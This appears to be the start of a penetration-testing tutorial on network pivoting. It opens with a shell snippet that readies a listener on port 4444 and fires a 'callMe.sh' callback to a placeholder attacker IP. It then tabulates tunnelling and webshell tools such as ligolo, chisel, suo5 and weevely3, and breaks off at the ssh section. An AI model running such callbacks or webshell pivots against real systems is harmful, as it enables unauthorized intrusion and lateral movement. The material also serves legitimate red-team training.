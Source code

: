 ```
[[ CallMe~Trigger ]]*
lsof -i tcp:4444
	#Make sure your listener is ready to go
cat /tmp/PROOF
	#Should not exist
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```

## Conops

```


| Tool        | Live Off the Land | Root required | Platform          | Socks | Tun   | Notes |
| ----------- | ----------------- | ------------- | ----------------- | ----- | ------| -----------------|
| ssh         | true              | false*        | linux/windows     | true  | true* | Bread and butter |
| iptables    | true              | true          | linux             | false | false | Bent pipe or NAT |
| socat       | rarely            | false*        | linux/windows     | false | true* | so many permutations |
| ligolo      | false             | false         | linux/windows     | true  | true  | Latest hotness |
| gost        | false             | false*        | linux/windows     | true  | true  | Huge amount of capabilities |
| Chisel      | false             | false         | linux/windows     | true  | false | Web-based but not a webshell |
| SSF         | false             | false         | linux/windows     | true  | false | like a small implant |
| sshuttle    | true              | false         | linux             | false | false | Simple yet complicated |
| suo5        | false             | false         | php,jsp,aspx,jspx | true  | false | Python client, Chinese webshell |
| Neo-reGeorg | false             | false         | php,aspx          | true  | false | Python client, Chinese webshell, but older |
| weevely3    | false             | false         | php               | false | false | webshell, only http proxying but tons of post-exploitation functionality|

* These tools can do pivoting without root privileges, but can be used with greater effectiveness with root privileges or the ability to make iptables rules and allow ip forwarding.
```

The goal is provide basic functionality of each tool, although there are certainly many more advanced features that will be left to the reader to explore.  Iptables will be an exception -- we will demonstrate simple port forwarding, and then use the nat table for more advanced pivoting as a part of other tools.  If you are unfamiliar with these tools, I suggest doing at least ssh, iptables, and socat, and then jumping around to whatever seems interesting.

## ssh
